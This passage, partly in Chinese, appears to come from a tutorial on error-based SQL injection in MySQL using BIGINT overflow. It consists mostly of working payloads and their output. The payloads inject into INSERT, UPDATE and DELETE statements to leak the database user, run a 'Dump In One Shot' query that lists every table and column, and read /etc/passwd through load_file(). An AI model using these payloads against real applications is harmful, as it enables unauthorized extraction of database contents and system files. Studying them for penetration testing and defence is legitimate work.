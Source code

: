     mysql> insert into users (id, username, password) values (2, '' or !(select*from(select user())x)-~0
    or '', 'Eyre');
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost'
    from dual))) - ~(0))'  

我们还可以使用DIOS(Dump In One Shot)  

    mysql> insert into users (id, username, password) values (2, '' or
    !(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where
    table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,colum
    n_name)),@)))x)-~0 or '', 'Eyre');
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    newdb::users::id
    newdb::users::username
    newdb::users::password' from dual))) - ~(0))'  
    
##在update语句中注入  
和insert语句注入类似，如下  

    mysql> update users set password='Peter' or !(select*from(select user())x)-~0 or '' where id=4;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost'
    from dual))) - ~(0))'  
    
##在delete语句中注入  

    mysql> delete from users where id='1' or !(select*from(select user())x)-~0 or '';
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost'
    from dual))) - ~(0))'  
    
##读取文件  
你可以利用load_file()函数来读取文件，但我提醒你它有13行的限制。  

    mysql> select !(select*from(select load_file('/etc/passwd'))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/u
    mysql> 

但是你不能写入文件。因为发生错误时，只会写入0。  

    mysql> select !(select*from(select 'hello')x)-~0 into outfile 'C:/out.txt';
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'hello' from dual))) -
    ~(0))'
    # type C:\out.txt
    0  
    